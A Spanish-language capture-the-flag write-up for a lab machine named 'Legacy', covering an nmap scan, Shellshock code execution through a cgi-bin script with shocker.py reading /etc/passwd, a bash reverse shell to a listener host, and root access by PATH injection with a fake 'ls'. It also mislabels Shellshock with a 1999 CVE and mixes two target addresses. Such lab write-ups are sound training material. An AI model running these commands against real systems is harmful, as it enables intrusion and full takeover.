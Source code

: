 # Legacy - HACKMEX

**OS**: Linux   
**Dificultad**: Medium   
**Puntos**: 6,200   
**Solucionado por**: M41w4r3

## Resumen 
- SHELLSHOCK RCE
- PATH INJECTION 
## Nmap Scan
```
nmap -A -p- -oN legacy -T4 10.0.30.121
Warning: 10.0.50.121 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.0.50.121
Host is up (0.087s latency).
Not shown: 65499 closed ports, 35 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.34 ((Unix) mod_ssl/2.2.34 OpenSSL/1.0.1t DAV/2)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.34 (Unix) mod_ssl/2.2.34 OpenSSL/1.0.1t DAV/2
|_http-title: NCSA Legacy
```

## Enumeracion 
Al enumerar podemos encontrar una pagina que nos muestra que se esta ejecutando el aplicativo NCSA
Asi que al investigar un poco podemos encontrar una vulnerabilidad en los archivos cgi-bin
'''
CVE-1999-0045 
'''

## Explotar CGI-BIN

Al encontrar que podemos ejecutar codigo remotamente mediante CGI-BIN lo que se conoce como shellshock
encontre un exploit llamado shocker que nos permite automatizar el proceso del shellshock
En esta area encontramos diferentes scripts pero el que nos permitia explotar dicha vulnerabilidad era el archivo "date"

asi que el comando utilizado fue python 
```python
shocker.py  -H 10.0.30.121 --command "/bin/cat /etc/passwd" -c /cgi-bin/date
```
Despues de esto lo que ejecute fue una shell inversa con bash el comando utilizado fue : 
```/bin/bash -i >& /dev/tcp/10.10.0.62/1111 0>&1```
y asi pude obtener una reverse shell con el servidor

## Privilege Escalation 

identificamos un archivo llamado tftp en la carpeta de cgi-bin 
notamos que tiene permisos de root ademas de que es un archivo ejecutable "ELF" asi que lo ejecutamos

despues de eso identificamos que tenemos que hacer un path injection porque nos muestra un error relacionado a el **ls** asi que vamos a injectarle otra instruccion 
lo siguiente es crear un archivo en la carpeta de tmp : 
```
echo "/bin/sh" > ls 
```
Esto nos permitira elevar privilegios para obtener el usuario root
despues realizamos el path injection con el siguiente comando : ```export PATH=/tmp/:$PATH```
despues ejecutamos el archivo y nos da la shell de root

## Archivos utilizados 
*shocker.py*
## Referencias

- https://www.trendmicro.com/vinfo/us/threat-encyclopedia/archive/security-advisories/cgi_nph_test_disclosure_exploit
- https://github.com/nccgroup/shocker 
